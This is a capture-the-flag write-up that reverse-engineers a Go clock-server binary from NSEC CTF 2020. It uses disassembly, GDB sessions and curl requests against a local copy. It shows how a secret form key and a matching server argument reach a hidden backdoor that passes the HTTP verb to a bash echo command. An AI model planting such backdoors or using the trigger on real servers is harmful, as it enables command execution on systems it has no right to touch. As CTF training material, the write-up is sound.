# Hack The Time - NSEC CTF 2020

## Overview

This is a walk-through of "Hack The Time" a 4-point challenge from the 2020 NSEC CTF. It was a great challenge that required static analysis, dynamic analysis, web skills, Go knowledge, and some creative Bash foo to solve. This was team effort with help from two of my teammates (finding the arg and some bash foo).

Props to [@becojo](https://twitter.com/becojo) for a great challenge!

## Challenge

```
Classes are sooooooo long and I’m bored af. There is a rumour that the student that developped the service that controls the school’s clock added a backdoor to change the time. It is still running to this day… It would be really cool if you can find it :wink:

I was able to get a copy of the binary if that helps you: https://dl.nsec/time_server [note binary included in this repo]

The school server is running at http://time-server.ctf:8080.
```

## Solution

### *Web*
------

Browsing to http://time-server.ctf:8080/ displays a simple clock with the current time. 

The source of the page is below:
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8"/>
    <title>Document</title>
    <link href="/styles.css" rel="stylesheet"/>
  </head>
  <body>
    <div id="clock">
      <svg viewBox="0 0 40 40">
        <circle cx="20" cy="20" r="19" />
        <g class="marks">
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
          <line x1="15" y1="0" x2="16" y2="0" />
        </g>

        <line x1="0" y1="0" x2="9" y2="0" class="hour" />
        <line x1="0" y1="0" x2="13" y2="0" class="minute" />
        <line x1="0" y1="0" x2="16" y2="0" class="seconds" />
        <circle cx="20" cy="20" r="0.7" class="pin" />

        <text x="-3" y="0"></text>
      </svg>
    </div>

    <div id="time"></div>

    <script src="/script.js"></script>
  </body>
</html>
```

`/script.js`:

```javascript
async function main() {
    var res = await fetch('/time.json');
    var {0: j} = await res.json();

    document.querySelector('svg text').textContent = j;

    var svg = document.querySelector('svg');
    var date = new Date(Date.parse(j));

    svg.style.setProperty('--start-seconds', date.getSeconds());
    svg.style.setProperty('--start-minutes', date.getMinutes());
    svg.style.setProperty('--start-hours', date.getHours() % 12);
}

main();

setInterval(main, 5000);
```

This script fetches `/time.json` every 5 seconds.
`/time.json` is an array of the current time, such as: `["2020-05-16 09:53:24"]`


`styles.css` just contains CSS to make the clock. I don't have the original CSS due to how I solved the challenge and local testing.

That is the extent of the website; no obvious backdoors exposed. Let's look at the binary.

### *Static Analysis*
----------

Opening the binary in IDA Pro we see lots of `go_` and `net_http__` functions.



So we have a Go binary. It's a mess, but [golang_loader_assist](https://github.com/strazzere/golang_loader_assist) helps resolve function names and strings, and generally makes it a little more pleasant to work with.

You can see in the screenshot above of `main.main` there are two handlers being registered, `/time.json` and `/`, which makes sense given what we saw on the challenge site. There are no other handlers, so the backdoor isn't as easy as `/cmd` or similar.

Let's look at the `/time.json` handler (`main_timeHandler`)



It gets the current time (`time_Now`), formats it (`time_Time_Format`), coverts it to a string (`runtime_convTstring`), and finally prints it (`fmt_Fprintf`). Nothing jumps out as being a backdoor, so let's move on for now. We can come back and reverse engineer this function in more depth if we don't find anything else.

How about `main_root` the handler for `/`?



Nothing super interesting. Follow the rabbit hole down `main_root_func1`.



Keep going into `main_e`



Well well well. `net_http__Request_FormValue` with a strange string `mlaasdkfasldkfm`. This feels like a backdoor. How can we send that string to have it read by `FormValue`? To the [docs](https://golang.org/src/net/http/request.go?h=FormValue)!

```go
// FormValue returns the first value for the named component of the query.
// POST and PUT body parameters take precedence over URL query string values.
// FormValue calls ParseMultipartForm and ParseForm if necessary and ignores
// any errors returned by these functions.
// If key is not present, FormValue returns the empty string.
// To access multiple values of the same key, call ParseForm and
// then inspect Request.Form directly.
```

Since we know that `/` works with `GET`, we must have to send that string as "name component of the query" aka a GET parameter. The string will be the "key" and whatever it's value is will be returned by `FormValue`. Something like:

```bash
curl -v http://127.0.0.1:8080/?mlaasdkfasldkfm=test
```

Ok so that should get us to the `jbe short loc_76320C` test. What is that checking? Since this is a 64bit ELF, we can see if IDA's pseudocode helps any:



If something is <=1 it will panic, but we're not quite sure what that something is. Looking further to line 17, there are two checks against something related to `os_Args` (`os_Args + 24` and `os_Args +16`). If all three of these checks pass, the program will call `main_rr`. Let's look at `main_rr`, with a mental note to come back and figure out what these checks are for.



As soon as we see `os_exec_Command`:


At this point we're confident we have found the backdoor, but it looks like it has additional checks and it isn't obvious what those checks are for. It's time for dynamic analysis.


### *Dynamic Analysis*
-----------------

Before you start any GDB adventures with Go binaries, the [Go documentation on GDB integration](https://golang.org/doc/gdb) is required reading. 

For this challenge my `.gdbinit` file contained the following:
```
source ~/peda/peda.py
set auto-load safe-path $debugdir:$datadir/auto-load:/usr/local/go/src/runtime
source /usr/local/go/src/runtime/runtime-gdb.py
set follow-fork-mode parent # this keeps GDB on the main binary if it forks any children (shells, etc)
```
I am using [peda](https://github.com/longld/peda) to make GDB a little more friendly.

Let's dig into the binary. First, get it open in GDB: `gdb ./time_server`

Now we load the function of interest and set a break point at it.

```gdb
gdb-peda$ l main.e
16      in /app/main.go
gdb-peda$ b main.e
Breakpoint 1 at 0x763160: file /app/main.go, line 21.
gdb-peda$ r
Starting program: /mnt/hgfs/nsec/time/time_server 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff5b6d700 (LWP 33773)]
[New Thread 0x7ffff536c700 (LWP 33774)]
[New Thread 0x7ffff4b6b700 (LWP 33775)]
[New Thread 0x7fffeffff700 (LWP 33776)]
[New Thread 0x7fffef7fe700 (LWP 33777)]
[New Thread 0x7fffeeffd700 (LWP 33778)]

```

At this point the `time_server` is running and waiting for connections on port 8080. Based on our static analysis, we know it will look for a form value of `mlaasdkfasldkfm` but not sure what happens after. Let's find out! In a different terminal, send a request like so, using a dummy value of `test` for the form key discovered earlier:

```bash
$ curl -v http://127.0.0.1:8080/?mlaasdkfasldkfm=test
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /?mlaasdkfasldkfm=test HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
```

Now this request hangs open, as the `time_server` is paused at our break point. Switching back to the first terminal we see:

```
Thread 3 "time_server" hit Breakpoint 1, main.e (r=0xc000134500) at /app/main.go:21
21      in /app/main.go
gdb-peda$ 
```

Perfect, lets step forward to the values being loaded before the first comparison by disassembling `main.e` and setting a breakpoint at the `mov` before the `cmp` after the call to `FormValue`. Note: you may have to `c` (continue) a few times before breakpoint 2 hits.

```gdb
gdb-peda$ disas main.e
Dump of assembler code for function main.e:
=> 0x0000000000763160 <+0>:     mov    rcx,QWORD PTR fs:0xfffffffffffffff8
   0x0000000000763169 <+9>:     cmp    rsp,QWORD PTR [rcx+0x10]
   0x000000000076316d <+13>:    jbe    0x76321a <main.e+186>
   0x0000000000763173 <+19>:    sub    rsp,0x30
   0x0000000000763177 <+23>:    mov    QWORD PTR [rsp+0x28],rbp
   0x000000000076317c <+28>:    lea    rbp,[rsp+0x28]
   0x0000000000763181 <+33>:    mov    rax,QWORD PTR [rsp+0x38]
   0x0000000000763186 <+38>:    mov    QWORD PTR [rsp],rax
   0x000000000076318a <+42>:    lea    rcx,[rip+0xd9133]        # 0x83c2c4
   0x0000000000763191 <+49>:    mov    QWORD PTR [rsp+0x8],rcx
   0x0000000000763196 <+54>:    mov    QWORD PTR [rsp+0x10],0xf
   0x000000000076319f <+63>:    call   0x6c3610 <net/http.(*Request).FormValue>
   0x00000000007631a4 <+68>:    mov    rax,QWORD PTR [rsp+0x20]
   0x00000000007631a9 <+73>:    mov    rcx,QWORD PTR [rsp+0x18]
   0x00000000007631ae <+78>:    mov    rdx,QWORD PTR [rip+0x3fa883]        # 0xb5da38 <os.Args+8>
   0x00000000007631b5 <+85>:    mov    rbx,QWORD PTR [rip+0x3fa874]        # 0xb5da30 <os.Args>
   0x00000000007631bc <+92>:    cmp    rdx,0x1
   0x00000000007631c0 <+96>:    jbe    0x76320c <main.e+172>
   0x00000000007631c2 <+98>:    mov    rdx,QWORD PTR [rbx+0x10]
   0x00000000007631c6 <+102>:   cmp    QWORD PTR [rbx+0x18],rax
   0x00000000007631ca <+106>:   je     0x7631d6 <main.e+118>
   0x00000000007631cc <+108>:   mov    rbp,QWORD PTR [rsp+0x28]
   0x00000000007631d1 <+113>:   add    rsp,0x30
   0x00000000007631d5 <+117>:   ret    
   0x00000000007631d6 <+118>:   mov    QWORD PTR [rsp],rcx
   0x00000000007631da <+122>:   mov    QWORD PTR [rsp+0x8],rdx
   0x00000000007631df <+127>:   mov    QWORD PTR [rsp+0x10],rax
   0x00000000007631e4 <+132>:   call   0x402dc0 <runtime.memequal>
   0x00000000007631e9 <+137>:   cmp    BYTE PTR [rsp+0x18],0x0
   0x00000000007631ee <+142>:   je     0x7631cc <main.e+108>
   0x00000000007631f0 <+144>:   mov    rax,QWORD PTR [rsp+0x38]
   0x00000000007631f5 <+149>:   mov    rcx,QWORD PTR [rax+0x8]
   0x00000000007631f9 <+153>:   mov    rax,QWORD PTR [rax]
   0x00000000007631fc <+156>:   mov    QWORD PTR [rsp],rax
   0x0000000000763200 <+160>:   mov    QWORD PTR [rsp+0x8],rcx
   0x0000000000763205 <+165>:   call   0x762fe0 <main.rr>
   0x000000000076320a <+170>:   jmp    0x7631cc <main.e+108>
   0x000000000076320c <+172>:   mov    eax,0x1
   0x0000000000763211 <+177>:   mov    rcx,rdx
   0x0000000000763214 <+180>:   call   0x460370 <runtime.panicIndex>
   0x0000000000763219 <+185>:   nop
   0x000000000076321a <+186>:   call   0x45da80 <runtime.morestack_noctxt>
   0x000000000076321f <+191>:   jmp    0x763160 <main.e>
End of assembler dump.
gdb-peda$ b *0x00000000007631ae
Breakpoint 2 at 0x7631ae: file /app/main.go, line 22.
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x1 
RCX: 0x0 
RDX: 0x0 
RSI: 0xc0001440ae ("asldkfm HTTP/1.1")
RDI: 0x83c2cc ("asldkfmms: gomaxprocs=negative offsetnegative updatenetwork is downno dot in fieldno medium foundno such processnon-minimal tagnot a directorynshortparallel;ntriangleright;num_symbols: 1\nrecord overfl"...)
RBP: 0xc00013cb40 --> 0xc00013cb80 --> 0xc00013cba8 --> 0xc00013cc08 --> 0xc00013cc38 --> 0xc00013cfb8 (--> ...)
RSP: 0xc00013cb18 --> 0xc000134500 --> 0xc0001440a0 ("GET /?mlaasdkfasldkfm HTTP/1.1")
RIP: 0x7631ae (<main.e+78>:     mov    rdx,QWORD PTR [rip+0x3fa883]        # 0xb5da38 <os.Args+8>)
R8 : 0x1 
R9 : 0x12 
R10: 0x8b5768 --> 0x807060504030201 
R11: 0x1 
R12: 0xffffffffffffffff 
R13: 0x12 
R14: 0x11 
R15: 0x200
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x76319f <main.e+63>:        call   0x6c3610 <net/http.(*Request).FormValue>
   0x7631a4 <main.e+68>:        mov    rax,QWORD PTR [rsp+0x20]
   0x7631a9 <main.e+73>:        mov    rcx,QWORD PTR [rsp+0x18]
=> 0x7631ae <main.e+78>:        mov    rdx,QWORD PTR [rip+0x3fa883]        # 0xb5da38 <os.Args+8>
   0x7631b5 <main.e+85>:        mov    rbx,QWORD PTR [rip+0x3fa874]        # 0xb5da30 <os.Args>
   0x7631bc <main.e+92>:        cmp    rdx,0x1
   0x7631c0 <main.e+96>:        jbe    0x76320c <main.e+172>
   0x7631c2 <main.e+98>:        mov    rdx,QWORD PTR [rbx+0x10]
[------------------------------------stack-------------------------------------]
0000| 0xc00013cb18 --> 0xc000134500 --> 0xc0001440a0 ("GET /?mlaasdkfasldkfm HTTP/1.1")
0008| 0xc00013cb20 --> 0x83c2c4 ("mlaasdkfasldkfmms: gomaxprocs=negative offsetnegative updatenetwork is downno dot in fieldno medium foundno such processnon-minimal tagnot a directorynshortparallel;ntriangleright;num_symbols: 1\nrecor"...)
0016| 0xc00013cb28 --> 0xf 
0024| 0xc00013cb30 --> 0x0 
0032| 0xc00013cb38 --> 0x0 
0040| 0xc00013cb40 --> 0xc00013cb80 --> 0xc00013cba8 --> 0xc00013cc08 --> 0xc00013cc38 --> 0xc00013cfb8 (--> ...)
0048| 0xc00013cb48 --> 0x7635ed (<main.root.func1+61>:  mov    rax,QWORD PTR [rsp+0x20])
0056| 0xc00013cb50 --> 0xc000134500 --> 0xc0001440a0 ("GET /?mlaasdkfasldkfm HTTP/1.1")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Thread 3 "time_server" hit Breakpoint 2, 0x00000000007631ae in main.e (r=0xc000134500) at /app/main.go:22
22      in /app/main.go
gdb-peda$ x/1x 0xb5da38
0xb5da38 <os.Args+8>:   0x0000000000000001
gdb-peda$ 
```

The last command run above examines 1 byte in hex at address `0xb5da38` and we see that it is 1. GDB with the help of the Go python script we sourced helpfully annotated this as `os.Args+8`. The [Go docs](https://golang.org/pkg/os/#pkg-variables) describe `os.Args` as a string array that holds the command-line arguments, starting with the program name. The value we read that will be compared against 1 indicates that this is the length of `os.Args` which makes since, as we did not run it with any arguments. To validate this, we restart the program with an argument and re-issue the curl request. 

```gdb
gdb-peda$ kill
[Inferior 1 (process 33769) killed]
gdb-peda$ r testarg
Starting program: /mnt/hgfs/nsec/time/time_server testarg
---8<---snip---8<----
Thread 1 "time_server" hit Breakpoint 2, 0x00000000007631ae in main.e (r=0xc0000ea100) at /app/main.go:22
22      in /app/main.go
gdb-peda$ x/1x 0xb5da38
0xb5da38 <os.Args+8>:   0x0000000000000002
```


Ok, so we can past the first comparison. What about the second? If we step a few instructions forward (`si`) to the next `cmp` we see this:

```gdb
gdb-peda$ si
[----------------------------------registers-----------------------------------]
RAX: 0x4 
RBX: 0xc00009e020 --> 0x7fffffffe517 ("/mnt/hgfs/nsec/time/time_server")
RCX: 0x0 
RDX: 0x7fffffffe537 --> 0x67726174736574 ('testarg')
RSI: 0xc00001df8e ("asldkfm=test HTTP/1.1")
RDI: 0x83c2cc ("asldkfmms: gomaxprocs=negative offsetnegative updatenetwork is downno dot in fieldno medium foundno such processnon-minimal tagnot a directorynshortparallel;ntriangleright;num_symbols: 1\nrecord overfl"...)
RBP: 0xc000043b40 --> 0xc000043b80 --> 0xc000043ba8 --> 0xc000043c08 --> 0xc000043c38 --> 0xc000043fb8 (--> ...)
RSP: 0xc000043b18 --> 0xc0000ea400 --> 0xc000206e00 ("GET /?mlaasdkfasldkfm HTTP/1.1")
RIP: 0x7631c6 (<main.e+102>:    cmp    QWORD PTR [rbx+0x18],rax)
R8 : 0x1 
R9 : 0x0 
R10: 0x8b5768 --> 0x807060504030201 
R11: 0x1 
R12: 0xffffffffffffffff 
R13: 0x83 
R14: 0x82 
R15: 0x200
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7631bc <main.e+92>:        cmp    rdx,0x1
   0x7631c0 <main.e+96>:        jbe    0x76320c <main.e+172>
   0x7631c2 <main.e+98>:        mov    rdx,QWORD PTR [rbx+0x10]
=> 0x7631c6 <main.e+102>:       cmp    QWORD PTR [rbx+0x18],rax
   0x7631ca <main.e+106>:       je     0x7631d6 <main.e+118>
   0x7631cc <main.e+108>:       mov    rbp,QWORD PTR [rsp+0x28]
   0x7631d1 <main.e+113>:       add    rsp,0x30
   0x7631d5 <main.e+117>:       ret
[------------------------------------stack-------------------------------------]
0000| 0xc000043b18 --> 0xc0000ea400 --> 0xc000206e00 ("GET /?mlaasdkfasldkfm HTTP/1.1")
0008| 0xc000043b20 --> 0x83c2c4 ("mlaasdkfasldkfmms: gomaxprocs=negative offsetnegative updatenetwork is downno dot in fieldno medium foundno such processnon-minimal tagnot a directorynshortparallel;ntriangleright;num_symbols: 1\nrecor"...)
0016| 0xc000043b28 --> 0xf 
0024| 0xc000043b30 --> 0x0 
0032| 0xc000043b38 --> 0x0 
0040| 0xc000043b40 --> 0xc000043b80 --> 0xc000043ba8 --> 0xc000043c08 --> 0xc000043c38 --> 0xc000043fb8 (--> ...)
0048| 0xc000043b48 --> 0x7635ed (<main.root.func1+61>:  mov    rax,QWORD PTR [rsp+0x20])
0056| 0xc000043b50 --> 0xc0000ea400 --> 0xc000206e00 ("GET /?mlaasdkfasldkfm HTTP/1.1")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x00000000007631c6      22      in /app/main.go
gdb-peda$ x/1x $rbx+0x18
0xc00000e0b8:   0x0000000000000007
```

The comparison is between $rbx+0x18 which is 7 and RAX which is 4, so we fail this check. How are the 7 and 4 being set? Looking at the values we control, `testarg` is 7 characters and `test` from the curl command is 4 characters. Seems like a safe bet these need to be equal in order to pass this check. In GDB we continue (`c`) to let the request finish, then fire another curl in the second terminal.


```bash
curl -v http://127.0.0.1:8080/?mlaasdkfasldkfm=testarg
```

Back in GDB we see:

```gdb
[----------------------------------registers-----------------------------------]
RAX: 0x7 
---8<---snip---8<----
[-------------------------------------code-------------------------------------]
   0x7631bc <main.e+92>:        cmp    rdx,0x1
   0x7631c0 <main.e+96>:        jbe    0x76320c <main.e+172>
   0x7631c2 <main.e+98>:        mov    rdx,QWORD PTR [rbx+0x10]
=> 0x7631c6 <main.e+102>:       cmp    QWORD PTR [rbx+0x18],rax
   0x7631ca <main.e+106>:       je     0x7631d6 <main.e+118>
---8<---snip---8<----
Thread 1 "time_server" hit Breakpoint 5, 0x00000000007631c6 in main.e (r=0xc0000ca100) at /app/main.go:22
22      in /app/main.go
gdb-peda$ x/1x $rbx+0x18
0xc00000e0b8:   0x0000000000000007
```

Bingo, another check passed. Let's keep going by setting a breakpoint on the call to `runtime.memequal`.

```
gdb-peda$ b *0x00000000007631e4
Breakpoint 6 at 0x7631df: file /app/main.go, line 22.
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x7 
RBX: 0xc00000e0a0 --> 0x7fffffffe53d ("/time_server")
RCX: 0xc00001c136 ("testarg HTTP/1.1")
RDX: 0x7fffffffe54a --> 0x67726174736574 ('testarg')
---8<---snip---8<----
[-------------------------------------code-------------------------------------]
   0x7631d6 <main.e+118>:       mov    QWORD PTR [rsp],rcx
   0x7631da <main.e+122>:       mov    QWORD PTR [rsp+0x8],rdx
   0x7631df <main.e+127>:       mov    QWORD PTR [rsp+0x10],rax
=> 0x7631e4 <main.e+132>:       call   0x402dc0 <runtime.memequal>
   0x7631e9 <main.e+137>:       cmp    BYTE PTR [rsp+0x18],0x0
   0x7631ee <main.e+142>:       je     0x7631cc <main.e+108>
   0x7631f0 <main.e+144>:       mov    rax,QWORD PTR [rsp+0x38]
   0x7631f5 <main.e+149>:       mov    rcx,QWORD PTR [rax+0x8]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xc0000d7b18 --> 0xc00001c136 ("testarg HTTP/1.1")
0008| 0xc0000d7b20 --> 0x7fffffffe54a --> 0x67726174736574 ('testarg')
0016| 0xc0000d7b28 --> 0x7 
---8<---snip---8<----
```

Looking at the stack we can make a safe bet that this is comparing the value of the FormValue with the first argument to `time_server` for 7 characters. Since they are equal, we should pass this check and finally get to our backdoor in `main.rr`. Let's set a breakpoint and find out.

```gdb
gdb-peda$ l main.rr
7       in /app/main.go
gdb-peda$ b main.rr
Breakpoint 8 at 0x762fe0: file /app/main.go, line 12.
gdb-peda$ c
---8<---snip---8<----
Thread 1 "time_server" hit Breakpoint 6, main.rr (s=...) at /app/main.go:12
12      in /app/main.go
```

Excellent, we have successfully reached the backdoor code. What does it actually do? We saw in the static analysis a call to `runtime_concatstring2` with the string `echo ` (with the space) and then a call to `os_exec_Command` with the string `bash` involved. If we let the code run, we should see something echoed to the gdb terminal.


```gdb
gdb-peda$ c
Continuing.
[Detaching after vfork from child process 37627]
GET
```

GET!?! That is not what I expected. The only place we have GET is in the HTTP request. It appears the backdoor will echo the HTTP verb if the form values are set correctly. Let's validate our hypothesis by sending a POST instead of a GET.

```bash
curl -v http://127.0.0.1:8080/?mlaasdkfasldkfm=testarg -X POST
```

```gdb
$ gdb ./time_server 
---8<---snip---8<----
gdb-peda$ r testarg
Starting program: ./time_server testarg
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7ffff5b6d700 (LWP 37657)]
[New Thread 0x7ffff536c700 (LWP 37658)]
[New Thread 0x7ffff4b6b700 (LWP 37659)]
[New Thread 0x7fffeffff700 (LWP 37660)]
[New Thread 0x7fffef7fe700 (LWP 37661)]
[New Thread 0x7fffeeffd700 (LWP 37662)]
[Detaching after vfork from child process 37665]
POST
```

Confirmed. What we have so far is a few checks and then an echo of the HTTP verb from the request. Somehow, we need to use this to get a flag from the server. Let's review the checks first:

1. Is the a form key of `mlaasdkfasldkfm`?
2. Is there at least one arugement to the server?
3. Does the arugment length equal the length of the value with the key `mlaasdkfasldkfm`?
4. Does the argument match the value of the form with key `mlaasdkfasldkfm`?

If those 4 checks are passed, then we run `bash -c echo [HTTP verb from request]`. At this point we have two issues:

1. What is the argument to the server binary on the challenge server?
2. How do you read a flag value using only HTTP verb values?

### *Exploitation*
-----------------

First, we need to get the argument on the running challenge server. At this point one of my teammates posted in our chat:

```
chat: http://time-server.ctf:8080/debug/pprof/etc/services doesn't 404
```

He was using Ghidra, and when I posted the `mlaasdkfasldkfm` string in chat he searched for it.



Right clicking and copying the value in "String view" gives you a very large string that contains "/debug/pprof//etc/services" near the top.

